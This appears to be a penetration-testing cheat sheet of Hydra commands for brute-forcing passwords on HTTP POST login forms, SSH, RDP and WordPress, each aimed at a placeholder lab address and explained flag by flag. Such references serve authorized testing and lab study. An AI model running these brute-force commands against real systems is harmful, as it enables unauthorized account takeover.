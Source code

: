 # Hydra Commands
Commands for password brute-forcing with Hydra

## HTTP POST Form Brute-Force
```bash copy
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/Account/login.aspx:__VIEWSTATE=95ZYxDxm74Lhbyjee8Ulme9lLXAd23uuk0PUc3Y%2F1XW4TJeGT7bdvAOuUJTIfe4ASHM8vAty8uMzn82A3zafq9%2F4iThU%2FC7j3MJS4kmVmKbiZsAVEsVzGr6t2AZBcG2rlfwjITTOcEUFFZBazJrYSxd5NcP%2BufiViloNW2NWn8TIfbk3Wrh2Fzj8yvyWI90drIvOArxgTQRl3rHTMdvX16M9MS83LHc6G9fd0O9QP%2FIHbwfshNWGAesZoVfOts0Ox3TJ8v3wSkxQqIYuE0bS0IB5HNoG%2FtuQ7yB3IpqxS0v68fRXlTV1UABIIcbrJHBFvkCeivvGy0XIWbxIoVV5C1P1kHVDJA28Hegat%2BwAJAULuzcy&__EVENTVALIDATION=DIJsYDDgicMtOPNaf4sO3hbIKJijnqdUhoSfihJVt%2BdxEZPZv3uqSWjiRAJOe5DNV3PIGseovVJFJ4%2F1MlzxIiGZ93ztZC0%2BUjF5xI4cVFNkwR2wXaKxR7H3a7RO0o5xqIUQx%2FSRcaKwWGL80aGyuMsGM4fLwIGvt77JBt50siwtrRqG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V -I
```
- Brute-forces an HTTP POST login form with a specific username and wordlist.
- `-l admin`: Specifies the username `admin`.
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the password wordlist.
- `http-post-form`: Specifies the protocol.
- `/Account/login.aspx:...`: Defines the login form parameters and failure message.
- `-V`: Enables verbose mode.
- `-I`: Ignores restored sessions.

## Generic Protocol Brute-Force
```bash copy
hydra -P /usr/share/wordlists/rockyou.txt -v 10.10.10.10 ssh
```
- Brute-forces passwords for a specified protocol (e.g., SSH).
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the password wordlist.
- `-v`: Enables verbose mode.
- `ssh`: Specifies the protocol.

## Username and Password Brute-Force
```bash copy
hydra -v -V -u -L usernames.txt -P /usr/share/wordlists/rockyou.txt -t 1 -u 10.10.10.10 ssh
```
- Brute-forces both usernames and passwords for a protocol.
- `-v`: Enables verbose mode.
- `-V`: Shows login attempts.
- `-u`: Loops through usernames first.
- `-L usernames.txt`: Specifies the username list.
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the password wordlist.
- `-t 1`: Uses one thread.
- `ssh`: Specifies the protocol.

## RDP Brute-Force
```bash copy
hydra -t 1 -V -f -l admin -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
```
- Brute-forces Windows Remote Desktop with a password list.
- `-t 1`: Uses one thread.
- `-V`: Shows login attempts.
- `-f`: Stops on first successful login.
- `-l admin`: Specifies the username `admin`.
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the password wordlist.
- `rdp://10.10.10.10`: Specifies the RDP protocol and target.

## WordPress Login Brute-Force
```bash copy
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
- Brute-forces a WordPress login form with specific parameters.
- `-l admin`: Specifies the username `admin`.
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the password wordlist.
- `-V`: Shows login attempts.
- `http-form-post`: Specifies the protocol.
- `/wp-login.php:...`: Defines the login form parameters and success condition.

## SSH Brute-Force
```bash copy
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -V -I -F -t 64
```
- Brute-forces SSH login with a specific username and high thread count.
- `-l jan`: Specifies the username `jan`.
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the password wordlist.
- `-V`: Shows login attempts.
- `-I`: Ignores restored sessions.
- `-F`: Stops on first successful login.
- `-t 64`: Uses 64 threads.
- `ssh`: Specifies the protocol.